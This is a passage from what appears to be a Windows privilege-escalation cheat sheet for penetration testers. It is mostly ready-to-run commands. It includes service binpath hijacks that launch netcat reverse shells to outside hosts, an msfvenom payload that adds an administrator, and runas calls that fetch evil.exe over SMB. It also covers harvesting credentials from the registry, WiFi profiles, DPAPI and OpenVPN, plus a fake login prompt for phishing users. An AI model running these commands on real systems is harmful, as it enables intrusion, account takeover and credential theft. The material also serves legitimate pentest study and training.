						2>nul | findstr /i "(F) (M) (W) :\\" | findstr /i ":\\ everyone authenticated users todos %username%" && echo.
							)
						)
			* Checking permissions of the folders of the processes binaries

					(
					)
					for /f "tokens=2 delims='='" %%x in ('wmic process list full^|find /i "executablepath"^|find /i /v 
					"system32"^|find ":"') do for /f eol^=^"^ delims^=^" %%y in ('echo %%x') do (
						icacls "%%~dpy\" 2>nul | findstr /i "(F) (M) (W) :\\" | findstr /i ":\\ everyone authenticated users 
					todos %username%" && echo.
					)
	* <details><summary>Memory Password mining (Click to expand)</summary><p>
		* You can create a memory dump of a running process using procdump from sysinternals. Services like FTP have the credentials in clear text in memory, try to dump the memory and read the credentials.

				procdump.exe -accepteula -ma <proc_name_tasklist>
	* <details><summary>Insecure GUI apps (Click to expand)</summary><p>
		* Applications running as SYSTEM may allow an user to spawn a CMD, or browse directories.
		* Example
			1. **Windows Help and Support** (Windows + F1)
			1. Search for **command prompt**
			1. Click on **Click to open Command Prompt**
* <details><summary>Services (Click to expand)</summary><p>
	* Get a list of services

			net start
	* wmic service list brief

			sc query
			Get-Service
	* <details><summary>Permissions (Click to expand)</summary><p>
		* <details><summary>References (Click to expand)</summary><p>
			* Download `accesschk.exe` for XP -<br />[https://github.com/ankh2054/windows-pentest/raw/master/Privelege/accesschk-2003-xp.exe](https://github.com/ankh2054/windows-pentest/raw/master/Privelege/accesschk-2003-xp.exe)
		* <details><summary>Overview (Click to expand)</summary><p>
			* You can use sc to get information of a service
			
					sc qc <service_name>
			* It is recommended to have the binary accesschk from Sysinternals to check the required privilege level for each service.

					accesschk.exe -ucqv <Service_Name> #Check rights for different groups
			* It is recommended to check if "Authenticated Users" can modify any service:

					accesschk.exe -uwcqv "Authenticated Users" * /accepteula
					accesschk.exe -uwcqv %USERNAME% * /accepteula
					accesschk.exe -uwcqv "BUILTIN\Users" * /accepteula 2>nul
					accesschk.exe -uwcqv "Todos" * /accepteula ::Spanish version
	* <details><summary>Enable service (Click to expand)</summary><p>
		* <details><summary>Overview (Click to expand)</summary><p>
			* If you are having this error (for example with SSDPSRV): `System error 1058 has occurred.`, then the service cannot be started. The error is caused by either the service being disabled or because the service has no enabled devices associated with it.
			* The service `upnphost` depends on SSDPSRV to work (for `XP SP1`)
			* Other Permissions can be used to escalate privileges:
				* `SERVICE_CHANGE_CONFIG` - Can reconfigure the service binary
				* `WRITE_DAC` - Can reconfigure permissions, leading to SERVICE_CHANGE_CONFIG
				* `WRITE_OWNER` -  Can become owner, reconfigure permissions
				* `GENERIC_WRITE` -  Inherits SERVICE_CHANGE_CONFIG
				* `GENERIC_ALL` -  Inherits SERVICE_CHANGE_CONFIG
		* Enable Service Process
			1. Run these commands

					sc config SSDPSRV start= demand
					sc config SSDPSRV obj= ".\LocalSystem" password= ""
		* Another workaround of this problem is running:

				sc.exe config usosvc start= auto
		* Modify service binary path
			* If the group "Authenticated users" has SERVICE_ALL_ACCESS in a service, then it can modify the binary that is being executed by the service. To modify it and execute nc you can do:

					sc config <Service_Name> binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
					sc config <Service_Name> binpath= "net localgroup administrators username /add"
					sc config <Service_Name> binpath= "cmd \c C:\Users\nc.exe 10.10.10.10 4444 -e cmd.exe"

					sc config SSDPSRV binpath= "C:\Documents and Settings\PEPE\meter443.exe"
			* Restart service

					wmic service NAMEOFSERVICE call startservice
					net stop [service name] && net start [service name]
		* To detect and exploit this vulnerability you can use `exploit/windows/local/service_permissions`
	* <details><summary>Services binaries with weak permissions (Click to expand)</summary><p>
		* Check if you can modify the binary that is executed by a service or if you have write permissions on the folder where the binary is located ().
		* You can get every binary that is executed by a service using wmic (not in system32) and check your permissions using icacls:

				for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> %temp%\perm.txt
				for /f eol^=^"^ delims^=^" %a in (%temp%\perm.txt) do cmd.exe /c icacls "%a" 2>nul | findstr "(M) (F) :\"
		* You can also use sc and icacls:

				sc query state= all | findstr "SERVICE_NAME:" >> C:\Temp\Servicenames.txt
				FOR /F "tokens=2 delims= " %i in (C:\Temp\Servicenames.txt) DO @echo %i >> C:\Temp\services.txt
				FOR /F %i in (C:\Temp\services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> C:\Temp\path.txt
		* Services registry modify permissions
			* You should check if you can modify any service registry.
			* You can check your permissions over a service registry doing:

					reg query hklm\System\CurrentControlSet\Services /s /v imagepath #Get the binary paths of the services
		* Try to write every service with its current content (to check if you have write permissions)

				for /f %a in ('reg query hklm\system\currentcontrolset\services') do del %temp%\reg.hiv 2>nul & reg save %a %temp%\reg.hiv 2>nul && reg restore %a %temp%\reg.hiv 2>nul && echo You can modify %a
				get-acl HKLM:\System\CurrentControlSet\services\* | Format-List * | findstr /i "<Username> Users Path Everyone"
		* Check if `Authenticated Users` or `NT AUTHORITY\INTERACTIVE` have `FullControl`. In that case you can change the binary that is going to be executed by the service.
		* To change the Path of the binary executed:

				reg add HKLM\SYSTEM\CurrentControlSet\srevices\<service_name> /v ImagePath /t REG_EXPAND_SZ /d C:\path\new\binary /f
	* Services registry AppendData/AddSubdirectory permissions
		* <details><summary>References (Click to expand)</summary><p>
			* HackTricks: AppendData/AddSubdirectory permission over service registry -<br />[https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/appenddata-addsubdirectory-permission-over-service-registry](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/appenddata-addsubdirectory-permission-over-service-registry)
		* <details><summary>Overview (Click to expand)</summary><p>
			* If you have this permission over a registry this means to you can create sub registries from this one. In case of Windows services this is enough to execute arbitrary code:
	* <details><summary>Unquoted Service Paths (Click to expand)</summary><p>
		* If the path to an executable is not inside quotes, Windows will try to execute every ending before a space.
		* For example, for the path C:\Program Files\Some Folder\Service.exe Windows will try to execute:
			* `C:\Program.exe `
			* `C:\Program Files\Some.exe `
			* `C:\Program Files\Some Folder\Service.exe`
		* To list all unquoted service paths (minus built-in Windows services)

				wmic service get name,displayname,pathname,startmode |findstr /i "Auto" | findstr /i /v "C:\Windows\\" |findstr /i /v """
				wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\\Windows\\system32\\" |findstr /i /v """
			* Not only auto services
			* Other way

					for /f "tokens=2" %%n in ('sc query state^= all^| findstr SERVICE_NAME') do (
					for /f "delims=: tokens=1*" %%r in ('sc qc "%%~n" ^| findstr BINARY_PATH_NAME ^| findstr /i /v /l /c:"c:\windows\system32" ^| findstr /v /c:""""') do (
					echo %%~s | findstr /r /c:"[a-Z][ ][a-Z]" >nul 2>&1 && (echo %%n && echo %%~s && icacls %%s | findstr /i "(F) (M) (W) :\" | findstr /i ":\\ everyone authenticated users todos %username%") && echo.
					gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
			* You can detect and exploit this vulnerability with metasploit: exploit/windows/local/trusted_service_path
			* You can manually create a service binary with metasploit:

					msfvenom -p windows/exec CMD="net localgroup administrators username /add" -f exe-service -o service.exe
			* Recovery Actions
			* It's possible to indicate Windows what it should do. If that setting is pointing a binary and this binary can be overwritten you may be able to escalate privileges.
* <details><summary>Applications (Click to expand)</summary><p>
	* Installed Applications
		* Check permissions of the binaries (maybe you can overwrite one and escalate privileges) and of the folders (
		).

					dir /a "C:\Program Files"
					dir /a "C:\Program Files (x86)"
					reg query HKEY_LOCAL_MACHINE\SOFTWARE
					Get-ChildItem 'C:\Program Files', 'C:\Program Files (x86)' | ft Parent,Name,LastWriteTime
					Get-ChildItem -path Registry::HKEY_LOCAL_MACHINE\SOFTWARE | ft Name
	* <details><summary>Write Permissions (Click to expand)</summary><p>
		* Check if you can modify some config file to read some special file or if you can modify some binary that is going to be executed by an Administrator account (schedtasks).
		* A way to find weak folder/files permissions in the system is doing:

				accesschk.exe /accepteula
	* <details><summary>Find all weak folder permissions per drive. (Click to expand)</summary><p>

			accesschk.exe -uwdqs Users c:\
			accesschk.exe -uwdqs "Authenticated Users" c:\
			accesschk.exe -uwdqs "Everyone" c:\
	* <details><summary>Find all weak file permissions per drive. (Click to expand)</summary><p>
		* .

				accesschk.exe -uwqs Users c:\*.*
			* <details><summary>Sample Output (Click to expand)</summary><p>

					.
		* .

				accesschk.exe -uwqs "Authenticated Users" c:\*.*
			* <details><summary>Sample Output (Click to expand)</summary><p>

					.
		* .

				accesschk.exe -uwdqs "Everyone" c:\*.*
			* <details><summary>Sample Output (Click to expand)</summary><p>

					.
		* Command Shell icacls 1

				icacls "C:\Program Files\*" 2>nul | findstr "(F) (M) :\" | findstr ":\ everyone authenticated users todos %username%"
			* <details><summary>Sample Output (Click to expand)</summary><p>

					C:\Program Files\Common Files NT SERVICE\TrustedInstaller:(F)
					C:\Program Files\desktop.ini BUILTIN\Administrators:(F)
					C:\Program Files\HPPrintScanDoctor NT SERVICE\TrustedInstaller:(I)(F)
					C:\Program Files\Internet Explorer NT SERVICE\TrustedInstaller:(F)
					C:\Program Files\Microsoft Office NT SERVICE\TrustedInstaller:(I)(F)
					C:\Program Files\Microsoft Office 15 NT SERVICE\TrustedInstaller:(I)(F)
					C:\Program Files\Microsoft OneDrive NT SERVICE\TrustedInstaller:(I)(F)
					C:\Program Files\Microsoft Update Health Tools NT SERVICE\TrustedInstaller:(I)(F)
					C:\Program Files\ModifiableWindowsApps NT SERVICE\TrustedInstaller:(F)
					C:\Program Files\Mozilla Firefox NT SERVICE\TrustedInstaller:(I)(F)
					C:\Program Files\Uninstall Information NT SERVICE\TrustedInstaller:(I)(F)
					C:\Program Files\VMware NT SERVICE\TrustedInstaller:(I)(F)
					C:\Program Files\Windows Defender NT SERVICE\TrustedInstaller:(F)
					C:\Program Files\Windows Defender Advanced Threat Protection NT SERVICE\TrustedInstaller:(F)
					C:\Program Files\Windows Mail NT SERVICE\TrustedInstaller:(F)
					C:\Program Files\Windows Media Player NT SERVICE\TrustedInstaller:(F)
					C:\Program Files\Windows Multimedia Platform NT SERVICE\TrustedInstaller:(F)
					C:\Program Files\Windows NT NT SERVICE\TrustedInstaller:(F)
					C:\Program Files\Windows Photo Viewer NT SERVICE\TrustedInstaller:(F)
					C:\Program Files\Windows Portable Devices NT SERVICE\TrustedInstaller:(F)
					C:\Program Files\Windows Security NT SERVICE\TrustedInstaller:(F)
					C:\Program Files\Windows Sidebar NT SERVICE\TrustedInstaller:(F)
		* Command Shell icacls 2

				icacls ":\Program Files (x86)\*" 2>nul | findstr "(F) (M) C:\" | findstr ":\ everyone authenticated users todos %username%"
			* <details><summary>Sample Output (Click to expand)</summary><p>

					.
		* PowerShell 1

				Get-ChildItem 'C:\Program Files\*','C:\Program Files (x86)\*' | % { try { Get-Acl $_ -EA SilentlyContinue | Where {($_.Access|select -ExpandProperty IdentityReference) -match 'Everyone'} } catch {}}
			* <details><summary>Sample Output (Click to expand)</summary><p>

					.
		* PowerShell 2

				Get-ChildItem 'C:\Program Files\*','C:\Program Files (x86)\*' | % { try { Get-Acl $_ -EA SilentlyContinue | Where {($_.Access|select -ExpandProperty IdentityReference) -match 'BUILTIN\Users'} } catch {}}
			* <details><summary>Sample Output (Click to expand)</summary><p>

					.
	* <details><summary>Run at startup (Click to expand)</summary><p>
		* <details><summary>References (Click to expand)</summary><p>
			* HackTricks: Privilege Escalation with Autoruns -<br />[https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/privilege-escalation-with-autorun-binaries](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/privilege-escalation-with-autorun-binaries)
		* <details><summary>Overview (Click to expand)</summary><p>
			* Check if you can overwrite some registry or binary that is going to be executed by a different user.
			* Read the following page to learn more about interesting autoruns locations to escalate privileges:
	* <details><summary>Drivers (Click to expand)</summary><p>
		* Look for possible third party weird/vulnerable drivers
			* Command Shell
				* driveryquery

						driverquery
					* <details><summary>Sample Output (Click to expand)</summary><p>

							Module Name  Display Name           Driver Type   Link Date
							============ ====================== ============= ======================
							1394ohci     1394 OHCI Compliant Ho Kernel
							3ware        3ware                  Kernel        5/18/2015 6:28:03 PM
							ACPI         Microsoft ACPI Driver  Kernel
							AcpiDev      ACPI Devices driver    Kernel
							acpiex       Microsoft ACPIEx Drive Kernel
							acpipagr     ACPI Processor Aggrega Kernel
							AcpiPmi      ACPI Power Meter Drive Kernel
							acpitime     ACPI Wake Alarm Driver Kernel
							Acx01000     Acx01000               Kernel
							ADP80XX      ADP80XX                Kernel        4/9/2015 4:49:48 PM
							AFD          Ancillary Function Dri Kernel
							afunix       afunix                 Kernel
							ahcache      Application Compatibil Kernel
							<TRUNCATED LONG LIST>
					* Parameters
						* `/FO` - format. "TABLE", "LIST", "CSV".
						* `/SI` - Provides information about signed drivers.
* <details><summary>DLL Hijacking (Click to expand)</summary><p>
	* <details><summary>PATH DLL Hijacking (Click to expand)</summary><p>
		* If you have write permissions inside a folder present on PATH you could be able to hijack a DLL loaded by a process and escalate privileges.
		* Check permissions of all folders inside PATH

				for %%A in ("%path:;=";"%") do ( cmd.exe /c icacls "%%~A" 2>nul | findstr /i "(F) (M) (W) :\" | findstr /i ":\\ everyone authenticated users todos %username%" && echo. )
* <details><summary>Network (Click to expand)</summary><p>
	* <details><summary>Shares (Click to expand)</summary><p>
		* Get a list of computers
			* Command Shell

					net view
				* <details><summary>Sample Output (Click to expand)</summary><p>

						.
		* Shares on the domains
			* Command Shell

					net view /all /domain [domainname]
				* <details><summary>Sample Output (Click to expand)</summary><p>

						.
		* List shares of a computer
			* Command Shell
		
					net view \\computer /ALL
				* <details><summary>Sample Output (Click to expand)</summary><p>

						.
		* Mount the share locally
			* Command Shell
		
					net use x: \\computer\share
				* <details><summary>Sample Output (Click to expand)</summary><p>

						.
		* Check current shares
			* Command Shell

					net share
				* <details><summary>Sample Output (Click to expand)</summary><p>

						Share name   Resource                        Remark

						-------------------------------------------------------------------------------
						C$           C:\                             Default share
						IPC$                                         Remote IPC
						ADMIN$       C:\Windows                      Remote Admin
						The command completed successfully.
	* <details><summary>hosts file (Click to expand)</summary><p>
		* Check for other known computers hardcoded on the hosts file

				type C:\Windows\System32\drivers\etc\hosts
	* <details><summary>Network Interfaces & DNS (Click to expand)</summary><p>
		* Command Shell

				ipconfig /all
		* PowerShell

				Get-NetIPConfiguration | ft InterfaceAlias,InterfaceDescription,IPv4Address
				Get-DnsClientServerAddress -AddressFamily IPv4 | ft
	* <details><summary>Open Ports (Click to expand)</summary><p>
		* Check for restricted services from the outside
		
				netstat -ano #Opened ports?
	* <details><summary>Routing Table (Click to expand)</summary><p>

			route print
			Get-NetRoute -AddressFamily IPv4 | ft DestinationPrefix,NextHop,RouteMetric,ifIndex
	* <details><summary>ARP Table (Click to expand)</summary><p>

			arp -A
			Get-NetNeighbor -AddressFamily IPv4 | ft ifIndex,IPAddress,L
	* <details><summary>Firewall Rules (Click to expand)</summary><p>
		* <details><summary>References (Click to expand)</summary><p>
			* HackTricks: Fire Commands for Pentesters -<br />[https://book.hacktricks.xyz/windows/basic-cmd-for-pentesters#firewall](https://book.hacktricks.xyz/windows/basic-cmd-for-pentesters#firewall)
			* HackTricks: Network Enumeration Commands -<br />[https://book.hacktricks.xyz/windows/basic-cmd-for-pentesters#network](https://book.hacktricks.xyz/windows/basic-cmd-for-pentesters#network)
* <details><summary>Windows Subsystem for Linux (wsl) (Click to expand)</summary><p>
	* `C:\Windows\System32\bash.exe`
	* `C:\Windows\System32\wsl.exe`
	* Binary `bash.exe` can also be found in `C:\Windows\WinSxS\amd64_microsoft-windows-lxssbash_[...]\bash.exe`
	* If you get root user you can listen on any port (the first time you use nc.exe to listen on a port it will ask via GUI if nc should be allowed by the firewall).

			wsl whoami
			./ubuntun1604.exe config --default-user root
			wsl whoami
			wsl python -c 'BIND_OR_REVERSE_SHELL_PYTHON_CODE'
	* <details><summary>To easily start bash as root, you can try --default-user root (Click to expand)</summary><p>
		* You can explore the WSL filesystem in the folder `C:\Users\%USERNAME%\AppData\Local\Packages\CanonicalGroupLimited.UbuntuonWindows_79rhkp1fndgsc\LocalState\rootfs\`
* <details><summary>Windows Credentials (Click to expand)</summary><p>
	* Winlogon Credentials

			reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr /i "DefaultDomainName DefaultUserName DefaultPassword AltDefaultDomainName AltDefaultUserName AltDefaultPassword LastUsedUsername"
	* Other way

			reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultDomainName
			reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultUserName
			reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword
			reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AltDefaultDomainName
			reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AltDefaultUserName
			reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AltDefaultPassword
	* <details><summary>Credentials manager, Windows vault (Click to expand)</summary><p>
		* <details><summary>References (Click to expand)</summary><p>
			* [https://www.neowin.net/news/windows-7-exploring-credential-manager-and-windows-vault](https://www.neowin.net/news/windows-7-exploring-credential-manager-and-windows-vault)]
		* <details><summary>Overview (Click to expand)</summary><p>
			* The Windows Vault stores user credentials for servers, websites and other programs that Windows can log in the users automatically. At first instance, this might look like now users can store their Facebook credentials, Twitter credentials, Gmail credentials etc., so that they automatically log in via browsers. But it is not so.
			* Windows Vault stores credentials that Windows can log in the users automatically, which means that any Windows application that needs credentials to access a resource (server or a website) can make use of this Credential Manager & Windows Vault and use the credentials supplied instead of users entering the username and password all the time.
			* Unless the applications interact with Credential Manager, I don't think it is possible for them to use the credentials for a given resource. So, if your application wants to make use of the vault, it should somehow communicate with the credential manager and request the credentials for that resource from the default storage vault.
		* Process
			* Use the cmdkey to list the stored credentials on the machine.

					cmdkey /list
			* Sample Output

					Currently stored credentials (Click to expand)</summary><p>
					Target: Domain:interactive=WORKGROUP\Administrator
					Type: Domain Password
					User: WORKGROUP\Administrator
			* Then you can use runas with the `/savecred` options in order to use the saved credentials. The following example is calling a remote binary via an SMB share.

				runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"
			* Using runas with a provided set of credential.

					C:\Windows\System32\runas.exe /env /noprofile /user:<username> <password> "c:\users\Public\nc.exe -nc <attacker-ip> 4444 -e cmd.exe"
		* Tools
			* mimikatz
			* lazagne
			* Credentials File View -<br />[https://www.nirsoft.net/utils/credentials_file_view.html](https://www.nirsoft.net/utils/credentials_file_view.html)
			* VaultPasswordView -<br />[https://www.nirsoft.net/utils/vault_password_view.html](https://www.nirsoft.net/utils/vault_password_view.html)
			* Empire PowerShell Module -<br />[https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/dumpCredStore.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/dumpCredStore.ps1)
	* <details><summary>DPAPI (Click to expand)</summary><p>
		* <details><summary>References (Click to expand)</summary><p>
			* [https://en.wikipedia.org/wiki/Security_Identifier](https://en.wikipedia.org/wiki/Security_Identifier)
		* <details><summary>Overview (Click to expand)</summary><p>
			* In theory, the Data Protection API can enable symmetric encryption of any kind of data; in practice, its primary use in the Windows operating system is to perform symmetric encryption of asymmetric private keys, using a user or system secret as a significant contribution of entropy.
			* DPAPI allows developers to encrypt keys using a symmetric key derived from the user's logon secrets, or in the case of system encryption, using the system's domain authentication secrets.
		 	* The DPAPI keys used for encrypting the user's RSA keys are stored under `%APPDATA%\Microsoft\Protect\{SID}` directory, where {SID} is the Security Identifier of that user. The DPAPI key is stored in the same file as the master key that protects the users private keys. It usually is 64 bytes of random data. (Notice that this directory is protected so you cannot list it usingdir from the cmd, but you can list it from PS).
	 	* Process
	 		* .

					Get-ChildItem  C:\Users\USER\AppData\Roaming\Microsoft\Protect\
					Get-ChildItem  C:\Users\USER\AppData\Local\Microsoft\Protect\
			* You can use mimikatz module `dpapi::masterkey` with the appropriate arguments (`/pvk` or `/rpc`) to decrypt it.
			* The credentials files protected by the master password are usually located in:

					dir C:\Users\username\AppData\Local\Microsoft\Credentials\
					dir C:\Users\username\AppData\Roaming\Microsoft\Credentials\
					Get-ChildItem -Hidden C:\Users\username\AppData\Local\Microsoft\Credentials\
					Get-ChildItem -Hidden C:\Users\username\AppData\Roaming\Microsoft\Credentials\
			* You can use mimikatz module `dpapi::cred` with the appropiate /masterkey to decrypt.
			* You can extract many DPAPI masterkeys from memory with the `sekurlsa::dpapi` module (if you are root).
	* <details><summary>WiFi (Click to expand)</summary><p>
		* <details><summary>List saved Wifi using (Click to expand)</summary><p>

				netsh wlan show profile
		* <details><summary>To get the clear-text password use (Click to expand)</summary><p>

				netsh wlan show profile <SSID> key=clear
		* <details><summary>Oneliner to extract all wifi passwords (Click to expand)</summary><p>

				cls & echo. & for /f "tokens=4 delims=: " %a in ('netsh wlan show profiles ^| find "Profile "') do @echo off > nul & (netsh wlan show profiles name=%a key=clear | findstr "SSID Cipher Content" | find /v "Number" & echo.) & @echo on
		* <details><summary>Saved RDP Connections (Click to expand)</summary><p>
			* You can find them on `HKEY_USERS\<SID>\Software\Microsoft\Terminal Server Client\Servers\` and in `HKCU\Software\Microsoft\Terminal Server Client\Servers\`
		* <details><summary>Recently Run Commands (Click to expand)</summary><p>

				HCU\<SID>\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\RunMRU
				HKCU\<SID>\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\RunMRU
		* <details><summary>Remote Desktop Credential Manager (Click to expand)</summary><p>
			* `%localappdata%\Microsoft\Remote Desktop Connection Manager\RDCMan.settings`
			* Use the Mimikatz dpapi::rdg module with appropriate /masterkey to decrypt any .rdg files
			* You can extract many DPAPI masterkeys from memory with the Mimikatz sekurlsa::dpapi module
	* <details><summary>AppCmd.exe (Click to expand)</summary><p>
		* Note that to recover passwords from AppCmd.exe you need to be Administrator and run under a High Integrity level.
		* AppCmd.exe is located in the %systemroot%\system32\inetsrv\ directory.
		* If this file exists then it is possible that some credentials have been configured and can be recovered.
			* This code was extracted from PowerUP:
	* <details><summary>SCClient/SCCM (Click to expand)</summary><p>
		* <details><summary>References (Click to expand)</summary><p>
			* enjoiz GitHub: Privec -<br />[https://github.com/enjoiz/Privesc](https://github.com/enjoiz/Privesc)
		* <details><summary>Overview (Click to expand)</summary><p>
			* Check if `C:\Windows\CCM\SCClient.exe` exists.
			* Installers are run with SYSTEM privileges, many are vulnerable to DLL Sideloading (Info from ).

					$result = Get-WmiObject -Namespace "root\ccm\clientSDK" -Class CCM_Application -Property * | select Name,SoftwareVersion
					if ($result) { $result }
					else { Write "Not Installed." }
* <details><summary>Files and Registry (Credentials) (Click to expand)</summary><p>
	* Putty Creds

			reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s | findstr "HKEY_CURRENT_USER HostName PortNumber UserName PublicKeyFile PortForwardings ConnectionSharing ProxyPassword ProxyUsername" #Check the values saved in each session, user/password could be there
	* Putty SSH Host Keys

			reg query HKCU\Software\SimonTatham\PuTTY\SshHostKeys\
	* SSH keys in registry
		* <details><summary>References (Click to expand)</summary><p>
			* ropnop GitHub: Windows SSHAgent Extract -<br />[https://github.com/ropnop/windows_sshagent_extract](https://github.com/ropnop/windows_sshagent_extract)
			* ropnop blog: Extracting SSH Private Keys from Windows 10 SSH Agent -<br />[https://blog.ropnop.com/extracting-ssh-private-keys-from-windows-10-ssh-agent/](https://blog.ropnop.com/extracting-ssh-private-keys-from-windows-10-ssh-agent/)
		* <details><summary>Overview (Click to expand)</summary><p>
			* SSH private keys can be stored inside the registry key HKCU\Software\OpenSSH\Agent\Keys  so you should check if there is anything interesting in there
			
					reg query HKEY_CURRENT_USER\Software\OpenSSH\Agent\Keys
			* If ssh-agent service is not running and you want it to automatically start on boot run:

					Get-Service ssh-agent | Set-Service -StartupType Automatic -PassThru | Start-Service
			* It looks like this technique isn't valid anymore. I tried to create some ssh keys, add them with ssh-add and login via ssh to a machine. The registry HKCU\Software\OpenSSH\Agent\Keys doesn't exist and procmon didn't identify the use of dpapi.dll during the asymmetric key authentication.
	* Unattended files
		* `C:\Windows\sysprep\sysprep.xml`
		* `C:\Windows\sysprep\sysprep.inf`
		* `C:\Windows\sysprep.inf`
		* `C:\Windows\Panther\Unattended.xml`
		* `C:\Windows\Panther\Unattend.xml`
		* `C:\Windows\Panther\Unattend\Unattend.xml`
		* `C:\Windows\Panther\Unattend\Unattended.xml`
		* `C:\Windows\System32\Sysprep\unattend.xml`
		* `C:\Windows\System32\Sysprep\unattended.xml`
		* `C:\unattend.txt`
		* `C:\unattend.inf`

				dir /s *sysprep.inf *sysprep.xml *unattended.xml *unattend.xml *unattend.txt 2>nul
	* You can also search for these files using metasploit: post/windows/gather/enum_unattend
		* Example content:

				<component name="Microsoft-Windows-Shell-Setup" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" processorArchitecture="amd64">
					<AutoLogon>
					 <Password>U2VjcmV0U2VjdXJlUGFzc3dvcmQxMjM0Kgo==</Password>
					 <Enabled>true</Enabled>
					 <Username>Administrator</Username>
					</AutoLogon>
				​
					<UserAccounts>
					 <LocalAccounts>
					  <LocalAccount wcm:action="add">
					   <Password>*SENSITIVE*DATA*DELETED*</Password>
					   <Group>administrators;users</Group>
					   <Name>Administrator</Name>
					  </LocalAccount>
					 </LocalAccounts>
					</UserAccounts>
	* SAM & SYSTEM backups
		* Usually %SYSTEMROOT% = C:\Windows
		* `%SYSTEMROOT%\repair\SAM`
		* `%SYSTEMROOT%\System32\config\RegBack\SAM`
		* `%SYSTEMROOT%\System32\config\SAM`
		* `%SYSTEMROOT%\repair\system`
		* `%SYSTEMROOT%\System32\config\SYSTEM`
		* `%SYSTEMROOT%\System32\config\RegBack\system`
	* Cloud Credentials
	* From user home
		* `.aws\credentials`
		* `AppData\Roaming\gcloud\credentials.db`
		* `AppData\Roaming\gcloud\legacy_credentials`
		* `AppData\Roaming\gcloud\access_tokens.db`
		* `.azure\accessTokens.json`
		* `.azure\azureProfile.json`
		* `McAfee SiteList.xml`
	* Search for a file called `SiteList.xml`
	* Cached GPP Pasword
			* Before KB2928120 (see MS14-025), some Group Policy Preferences could be configured with a custom account. This feature was mainly used to deploy a custom local administrator account on a group of machines. There were two problems with this approach though. First, since the Group Policy Objects are stored as XML files in SYSVOL, any domain user can read them. The second problem is that the password set in these GPPs is AES256-encrypted with a default key, which is publicly documented. This means that any authenticated user could potentially access very sensitive data and elevate their privileges on their machine or even the domain. This function will check whether any locally cached GPP file contains a non-empty "cpassword" field. If so, it will decrypt it and return a custom PS object containing some information about the GPP along with the location of the file.
			* Search in `C:\ProgramData\Microsoft\Group Policy\history` or in `C:\Documents and Settings\All Users\Application Data\Microsoft\Group Policy\history` (previous to W Vista) for these files:
				* `Groups.xml`
				* `Services.xml`
				* `Scheduledtasks.xml`
				* `DataSources.xml`
				* `Printers.xml`
				* `Drives.xml`
	* <details><summary>To decrypt the cPassword: (Click to expand)</summary><p>

			gpp-decrypt j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw
	* <details><summary>IIS Web Config (Click to expand)</summary><p>

			Get-Childitem –Path C:\inetpub\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue
		* `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config`
		* `C:\inetpub\wwwroot\web.config`

				Get-Childitem –Path C:\inetpub\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue
				Get-Childitem –Path C:\xampp\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue
	* <details><summary>Example of web.config with credentials: (Click to expand)</summary><p>

				<authentication mode="Forms"> 
					<forms name="login" loginUrl="/admin">
						<credentials passwordFormat = "Clear">
							<user name="Administrator" password="SuperAdminPassword" />
						</credentials>
					</forms>
				</authentication>
	* <details><summary>OpenVPN credentials (Click to expand)</summary><p>

			Add-Type -AssemblyName System.Security
			$keys = Get-ChildItem "HKCU:\Software\OpenVPN-GUI\configs"
			$items = $keys | ForEach-Object {Get-ItemProperty $_.PsPath}
	* Other

			foreach ($item in $items)
			{
			  $encryptedbytes=$item.'auth-data'
			  $entropy=$item.'entropy'
			  $entropy=$entropy[0..(($entropy.Length)-2)]
			​
			  $decryptedbytes = [System.Security.Cryptography.ProtectedData]::Unprotect(
				$encryptedBytes, 
				$entropy, 
				[System.Security.Cryptography.DataProtectionScope]::CurrentUser)
			 
			  Write-Host ([System.Text.Encoding]::Unicode.GetString($decryptedbytes))
			}
	* <details><summary>Logs (Click to expand)</summary><p>
		* IIS

				C:\inetpub\logs\LogFiles\*
		* Apache

				Get-Childitem –Path C:\ -Include access.log,error.log -File -Recurse -ErrorAction SilentlyContinue
		* Ask for credentials
			* You can always ask the user to enter his credentials of even the credentials of a different user if you think he can know them (notice that asking the client directly for the credentials is really risky):

					$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+[Environment]::UserName,[Environment]::UserDomainName); $cred.getnetworkcredential().password
					$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+'anotherusername',[Environment]::UserDomainName); $cred.getnetworkcredential().password
	* <details><summary>Get plaintext (Click to expand)</summary><p>

			$cred.GetNetworkCredential() | fl
	* <details><summary>Possible filenames containing credentials (Click to expand)</summary><p>
		* Known files that some time ago contained passwords in clear-text or Base64
			* `$env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history`
